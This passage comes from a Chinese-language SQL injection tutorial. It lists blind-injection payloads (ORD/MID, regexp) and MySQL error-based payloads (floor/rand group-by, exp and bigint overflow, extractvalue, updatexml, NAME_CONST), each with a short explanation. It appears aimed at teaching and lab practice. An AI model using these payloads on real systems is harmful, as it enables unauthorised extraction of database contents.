     - 也可以用二分法和>=’a’,between and等来判断

- ▲ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER

  BY id LIMIT 0,1),1,1))>98%23 //ORD()函数，MID()函数

  Explain：

  - mid(a,b,c)从位置 b 开始，截取 a 字符串的 c 位
  - Ord()函数同 ascii()，将字符转为 ascii 值

- ▲regexp 正则注入

  正则注入介绍：

  http://www.cnblogs.com/lcamry/articles/5717442.html

  用法介绍：select user() regexp ‘^[a-z]’;

  Explain：

  - 正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。第二位可以用 select user() regexp ‘^ro’来进行。

##### 基于报错

———————————构造payload 让信息通过错误提示回显出来——————

- select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;
  Explain:此处有三个点，

  - 一是需要 concat 计数，
  - 二是 floor，取得 0 or 1，进行数据的重复，
  - 三是 group by 进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时
    重复造成的错误。也有解释为 mysql 的 bug 的问题。
  - 但是此处需要将 rand(0)，rand()需
    要多试几次才行。
  - 以上语句可以简化成如下的形式。
    select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
  - 如果 rand 被禁用了可以使用用户变量来报错
    select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)

- select exp(~(select * FROM(SELECT USER())a)) //double 数值类型超出范围
  //Exp()为以 e 为底的对数函数；版本在 5.5.5 及其以上
  可以参考 exp 报错文章：http://www.cnblogs.com/lcamry/articles/5509124.html

- select !(select * from (select user())x) -（ps:这是减号） ~~0
  //bigint 超出范围；~~0 是对 0 逐位取反，很大的版本在 5.5.5 及其以上

  可以参考文章 bigint 溢出文章 http://www.cnblogs.com/lcamry/articles/5509112.html

- extractvalue(1,concat(0x7e,(select @@version),0x7e))

  //mysql 对 xml 数据进行查询和修改的 xpath 函数，xpath 语法错误,32位字符限制

- updatexml(1,concat(0x7e,(select @@version),0x7e),1)

  //mysql 对 xml 数据进行查询和修改的 xpath 函数，xpath 语法错误,32位字符限制

- select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
  //mysql 重复特性，此处重复了 version，所以报错
